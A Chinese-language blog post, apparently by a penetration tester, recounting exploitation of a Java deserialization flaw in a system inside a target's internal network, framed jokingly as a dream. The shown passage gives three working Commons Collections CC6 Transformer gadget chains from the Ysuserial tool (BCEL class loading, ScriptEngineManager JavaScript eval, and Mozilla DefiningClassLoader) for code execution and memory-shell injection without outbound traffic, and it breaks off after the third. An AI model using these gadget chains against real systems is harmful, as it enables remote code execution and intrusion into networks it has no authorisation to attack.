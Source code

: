 最近做交付项目写代码比较多，做研究比较少，没什么好分享的，水一篇利用记录。

本文为梦游时编写，记录梦中所见，文章中图片皆为 PS，切勿当真。

0x01 前情提要
=========

某年某月的某一天，就像一张破碎的脸；难以开口道再见，就让一切走远。

我正在开发安全工具，一位 Java 的神突然出现，问我：“你在开发吗，要不要看下这个站？”

我很诧异，还有 Java 的神解决不了的站？

定睛一看，是目标内网里面的一个系统，接口存在反序列化漏洞。

Java 的神给出如下信息：

1. CC6 延时成功；
2. 内存马没打成功；
3. 目标环境里没有 TemplatesImpl。

我心想，这有什么难的？Java 的神分明是觉得日站太无聊，想要去挖洞了！无所谓！看我掏出 Ysuserial 给他秒了！然后继续写我的工具去。

正是这个念头，开启了我的被折磨之旅。

0x02 漏洞利用（捞的不谈）
===============

日反序列化漏洞首先当然是探测利用链，找到最好打最方便不出网的链子，然后一把梭。这里由于 Java 的神给出 CC6 这个信息，我当然无条件信任，因此省略探测其他利用链的过程。

简单说一下 CC6 利用，由于CC6 最终使用 `Transformer[]` 的方式进行利用，不出网的代码执行在 Ysuserial 中存在几种：

1. 使用 BCEL 执行：
    
    ```java
    bcelBytes = generateBCELFormClassBytes(encapsulationByClassLoaderTemplate(generateClass(command, config).toBytecode(), false, config).toBytecode());
    transformers = new Transformer[]{new ConstantTransformer(com.sun.org.apache.bcel.internal.util.ClassLoader.class), new InvokerTransformer("getConstructor", new Class[]{Class[].class}, new Object[]{new Class[]{}}), new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new String[]{}}), new InvokerTransformer("loadClass", new Class[]{String.class}, new Object[]{bcelBytes}), new InvokerTransformer("newInstance", new Class[0], new Object[0]), new ConstantTransformer(1)};
    ```
    
    可以看到有个方法 `encapsulationByClassLoaderTemplate` ，由于 BCEL 类加载器的特殊性，想打内存马的话要对封装一下使用线程类加载器，否则会找不到类。
2. 使用 ScriptEngineManager JS eval 执行 JS 代码：
    
    ```java
    transformers = new Transformer[]{new ConstantTransformer(ScriptEngineManager.class), new InvokerTransformer("newInstance", new Class[0], new Object[0]), new InvokerTransformer("getEngineByName", new Class[]{String.class}, new Object[]{"JavaScript"}), new InvokerTransformer("eval", new Class[]{String.class}, new Object[]{generateJS(ctClass.toBytecode(), config)})};
    ```
    
    比较常见的利用，`generateJS` 方法还可以根据实际情况有所变化。
3. 使用 `org.mozilla.javascript.DefiningClassLoader`进行类加载
    
    ```java
    transformers = new Transformer[]{new ConstantTransformer(org.mozilla.javascript.DefiningClassLoader.class), new InvokerTransformer("getConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}), new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}), new InvokerTransformer("defineClass", new Class[]{String.class, byte[].class}, new Object[]{ctClass.getName(), ctClass.toBytecode()}), new InvokerTransformer("newInstance", new Class[0], new Object[0]), new ConstantTransformer(1)};
    ```
    